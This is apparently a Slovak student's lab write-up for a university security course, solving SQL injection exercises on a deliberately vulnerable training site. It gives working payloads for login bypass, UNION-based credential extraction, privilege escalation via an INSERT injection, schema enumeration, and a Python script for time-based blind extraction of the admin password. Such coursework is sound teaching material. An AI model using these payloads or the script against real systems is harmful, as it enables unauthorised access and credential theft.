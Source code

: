 # Cvičenie 1 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 1.1 Hranie sa so SELECT-om

- Pomocou SQL injekcií v prihlasovacom formulári získajte “tajné heslo” k torpédam.
- Nájdite v tabuľke používateľa, ktorého login začína na písmeno “k”.
- Je jediný, ktorého meno začína na “k”?
- Koľko používateľov je v tabuľke users?

Najprv som skúsil zadať náhodné prihlasovacie údaje a stránka vypísala **invalid login**. Následne som zadal znak ```'```, aby som zistil, či je formulár zraniteľný na sql injection. Toto mi na stránke vyhodilo error code, čiže formulár je zraniteľný na sql injection. 

1. 
    Z možnosti zadavánia údajov, som usúdil, že query do DB vyzerá nejak takto:
    ```sql
    select * from users where username like '' and password like ''
    ```

    Tak som skúsil zadať do políčka login
    ```sql
    admin' -- 
    ```

    toto zapríčiní, že query bude vyzerať takto, pridanie komentára na koniec znamená, že zvysok query nebude vykonaný:
    ```sql
    select * from users where username like 'admin' -- and password like ''
    ```
    ![](1.1.png)
        
2. Najprv som skúšal nasledujúce vstupy, ktoré mi vždy vyhodili error:

    ```sql
    admin' select * from users where username like "k%" -- 
    admin' and 1=1; select * from users where "="
    admin' select * from users # where name like 'k%
    ```

    problém bol v tom, že tieto vstupy by vrátili viac ako jeden výsledok a v query bol LIMIT 1.

    Ďalej som skúsil sql injection pomocou union select. Postupne som zisťoval koľko je v query stĺpcov.
    ```sql
    ' union select null from users where login like 'k%' -- 
    ```
    , pričom vždy keď som dostal error tak som pridal **null,** navyše. Keď som získal správny počet riadkov, nahradil som **null** číslami, aby som zistil poradové číslo parametra, ktoré query vracia. Pomocou tohto vstupu som zistil, ze sa vypíše parameter na 2. pozícii.

    ```sql
    ' union select 1, 2, 3, 4 from users where login like 'k%'--
    ```

    ```sql
    ' union select password, login, null, null from users where login like 'k%'-- 
    ```
    ![](1.1_kabar.png)

    takto vyezeral výsledok, pričom používateľ je **kabar**.
    Pomocou tejto query upravenej o OFFSET som si vedel preiterovať všetkých používateľov v DB.

    ```sql
    ' union select password, login, null, null from users where login like 'k%' limit 1 offset 2#
    ```

    Používatelia v tabuľke users:
    - upratovacka
    - jozko
    - admin
    - kabar
    - kohutik

## 1.2 Registračný formulár
- Podstránka s registráciou obsahuje tiež SQL injection zraniteľnosť.
- Vytvorte si pomocou nej používateľa s vyššími privilégiami.

Pred vykonaním tejto úlohy som spravil úlohu 1.4, aby som získal prehľad o štruktúre DB.

Pri vkladaní do DB som predpokladal, že query vyzerá nasledovne:
```sql
insert into users (column1, column2, column3) values (value1, value2, value3)
```

Ako prvý krok som skúsil prikaz nižšie, pričom mi vyhodilo error pri registrácii. 

```sql
1, 'abcd', 'password') -- 
```

Po zmenení poradia hodnôt mi registrácia zbehla úspešne
```sql
abcd', 'password', 1) --
```

![](1.1_abcd.png)

Prihlásenie sa za používateľa abcd


## 1.3 Blind injection
- Poznajúc štruktúru users tabulky (login, password, ...), zistite pomocou tzv. blind SQL injection zraniteľnosti heslo pre používateľa “admin”.
- Na zneužitie použite API endpoint s informáciami “o torpédach” na podstránke “torpedo.php”, kde atribút “id” môže obsahovať číslo torpéda.

Najprv uvediem neúspešné pokusy, ktoré som vykonal pre hociakú odozvu stránky.

```
https://xviest.bit.demo-cert.sk/torpedo.php?id=3'
https://xviest.bit.demo-cert.sk/torpedo.php?id=3 -- 
https://xviest.bit.demo-cert.sk/torpedo.php?id=3 sleep(3) --
```

Postupne som sa dopátral k príkazu:

```
https://xviest.bit.demo-cert.sk/torpedo.php?id=3 and 1=2 union select sleep(5)
```

Tento príkaz uspal DB na 5 sekúnd, čím som docielil prístup k DB. Tento príkaz funguje tak, že prvá časť (id=3 and 1=2) je vždy false a tým pádom vráti 0 výsledkov. Keď to skombinujem pomocou **UNION** s query **select sleep(5)**, ktorá rovnako vracia 0 riadkov, DB sa uspí na 5 sekúnd.

V ďalšom kroku som nadviazal na tento príkaz a pridal som if statement:
```sql
https://xviest.bit.demo-cert.sk/torpedo.php?id=1 and 1=2 union select if(password like "5%", sleep(5), false) from users where login like "admin"--
```

V if statement kontrolujem či sa heslo pre používateľa admin začína na znak 5. (Viem, že sa začína na znak 5, lebo heslo som si vedel leaknuť z úlohy 1.1). Keďže už viem ako táto url funguje, vedel som si spraviť python script, ktorý postupne iteruje po všetkých číslach a kontroluje, či je response dlhší ako 2 sekundy. V prípade, že je, vie, že trafil správny znak v hesle a tento znak si zapamätá.

```python
import requests as requests
import time

password = ""
iterator = 0

try:
    for i in range(8):
        iterator = 0
        for id_number in range(0, 10):
            url = "https://xviest.bit.demo-cert.sk/torpedo.php?id=1 and 1=2 " \
                "union select if(password like \"{}{}%\" and login like 'admin', sleep(5), false) " \
                  "from users where login like \"admin\" --".format(password, id_number)
            start = time.time()
            response = requests.get(url)
            end = time.time()
            if end - start > 2:
                iterator = 1
                password += str(id_number)
                print("Found: {}".format(id_number))
                break
        if iterator == 0:
            print("Password found: {}".format(password))
            break
except requests.exceptions.RequestException as e:
    print("An error occurred:", e)
```

![](1.3.png)

Heslo pre admina je 5957

## 1.4 Identifikácia štruktúry databázy
- Odhaľte pomocou zraniteľnosti identifikovanej v bode 1.1 štruktúru vašej DB
- Nájdite tajnú tabuľku, ktorej názov je iný ako users alebo torpedos a získajte jej obsah.

Po tabuľkách som vedel iterovať pomocou funkcie **OFFSET**, rovnako ako v ulohe 1.1. 

Najprv som si zistil verziu DB: 8.0.34-0ubuntu0.20.04.1

```sql
' UNION SELECT 1, @@version, 3, 4#
```

Pomocou offset som prešiel všetky schémy a našiel schému s mojím menom (xviest). Následne som si vyfiltroval všetky tabuľky, ktoré patria pod moje meno a znova som všetky preiteroval.

```sql
' UNION SELECT 1, table_schema, 3, 4 from information_schema.tables limit 1 offset 2#

' UNION SELECT 1, table_name, 3, 4 from information_schema.tables where table_schema like 'xviest' limit 1 offset 2#
```

**Zoznam tabuliek: torpedos, users, topsecret**

Rovnakým spôsobom som vedel prejsť aj columns pre každú jednu tabuľku:

```sql
' UNION SELECT 1, column_name, 3, 4 from information_schema.columns where table_name like 'torpedos' limit 1 offset 0 #

' UNION SELECT 1, column_name, 3, 4 from information_schema.columns where table_name like 'users' limit 1 offset 0 #

' UNION SELECT 1, column_name, 3, 4 from information_schema.columns where table_name like 'topsecret' limit 1 offset 0 #
```

Pričom columns pre tabuľky boli:
- torpedos: id, status
- users: can_fire, login, password
- topsecret: keyz

Obsah tabuľky topsecret som zistil nasledovne:

```sql
' UNION SELECT 1, GROUP_CONCAT(keyz SEPARATOR ''), 3, 4 from topsecret#
```

tato query mi zlúči všetky výsledky z keyz do jedného stringu

**Obsah tabuľky:**

congratz. this is the end of first week....(go outside, nothing funny here)(seriously)

![](1.4.png)




